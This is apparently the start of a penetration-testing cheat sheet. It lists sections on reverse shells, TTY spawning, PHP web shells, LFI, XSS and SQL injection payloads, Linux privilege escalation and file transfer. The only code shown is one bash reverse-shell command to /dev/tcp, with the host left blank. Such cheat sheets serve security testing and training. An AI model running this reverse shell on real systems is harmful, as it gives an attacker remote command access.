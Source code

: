____

### Reverse shell
* #### [Bash](#bash)
* #### Python
* #### Netcat
* #### PHP
* #### Telnet
* #### Ruby
* #### Perl
### TTY Spawn Shell
* #### Python spawn shell
* #### OS system spawn shell
* #### Bash spawn shell
* #### Perl spawn shell
* #### Python spawn shell 
* #### Lua spawn shell 
* #### IRB spawn shell 
* #### VI spawn shell 
* #### VI(2) spawn shell 
* #### Nmap spawn shell 
### PHP Reverse Shell
* #### RCE
* #### Obfuscate PHP Web Shell
* #### PHP Reverse Shell
### LFI
* #### Directory traversal
* #### PHP Wrapper php://file
* #### PHP Wrapper php://filter
* #### Useful LFI files (Linux)
* #### Useful LFI files (Apache)
* #### Useful LFI files (MySQL)
* #### Useful LFI files (Windows)
### XSS
* #### Data grabber for XSS
* #### XSS in HTML/Applications
  * ##### Basic Payload
  * ##### Img tag payload
* #### XSS in Markdown
* #### XSS in SVG
* #### Bypass word blacklist with code evaluation
### SQL Injection Payloads
* #### Generic SQL Injection
* #### Time-Based
* #### Generic Error Based Payloads
* #### Authentication Based Payloads
* #### Order by and UNION Based Payloads
### Useful Linux command
* #### SUID Commands
* #### System Version
* #### Environment Variables
* #### Service settings
* #### Cron Jobs
* #### Other Users
* #### Port Forwarding
* #### TAR wildcard cronjob privilege escalation
### File Transfer
* #### Bash Upload
* #### Bash Download
* #### Netcat
* #### Python
* #### SCP

____

#### Reverse shell > bash
###### bash -c 'exec bash -i &>/dev/tcp// <&1'
